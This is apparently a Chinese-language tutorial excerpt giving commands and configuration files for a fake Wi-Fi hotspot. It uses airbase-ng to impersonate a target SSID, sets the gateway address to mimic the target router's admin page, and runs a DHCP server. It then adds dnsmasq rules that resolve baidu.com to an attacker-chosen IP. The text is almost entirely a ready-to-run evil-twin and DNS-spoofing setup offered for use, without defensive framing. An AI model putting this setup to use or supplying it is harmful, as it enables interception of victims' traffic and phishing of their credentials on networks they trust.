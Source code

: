 伪造热点：
```bash
sudo airmong start wlan2 //开启网卡的监听模式
sudo airbase-ng -e <target SSID>  -c <channel> <device2> //讲trget SSID更改为目标SSID，并且channel更改成不同的信道
sudo ifconfig at0 up //启动虚拟网关
sudo vi /etc/network/interfaces
------------------------------
//配置虚拟网卡地址参数
auto at0
iface at0 inet static
address 192.168.199.1  //这里最好与目标ap点的管理页面一样
netmask 255.255.255.0
------------------------------
sudo service networking restart //重启网卡服务
ifconfig at0查看at0网卡，如果没有ip地址或者不存在，重试以上步骤,注意！必须先使用airbase-ng创建AP点,at0网卡才会被可用！
```


配置DHCP:
```
sudo vi /etc/dhcp/dhcpd.conf
设置子网 掩码 分配地址范围等
在里面添加：
subnet 192.168.199.0 netmask 255.255.255.0{
    range 192.168.199.100 192.168.199.150;
    option routers 192.168.199.1;
    option subnet-mask 255.255.255.0;
    option domain-name-servers 192.168.178.99; //注意这里的doamin地址需要自己更换
}
```

进入下一配置文件，将at0指定为dhcp请求网卡
sudo vi /etc/default/isc-dhcp-server
将其中的INTERFACESv4=""更改为INTERFACESv4="at0"
sudo service isc-dhcp-server restart //重启dhcp服务

配置dnsmasq
```
sudo vi /etc/dnsmasq.conf
添加以下内容:
resolv-file=/etc/resolv.conf //设置resolv目录
strict-order
listen-address=192.168.199.113 //这个ip是本机ip，如果只想本地访问可以填写127.0.0.1

address=/baidu.com/192.168.178.99 //注意，这一步很重要，需要在这里设置泛解析
address=/111.com/220.181.38.148

server=8.8.8.8 
//设置谷歌dns为首选dns
server=114.114.114.114

sudo vi /etc/resolv.conf
添加nameserver为本机ip地址
```
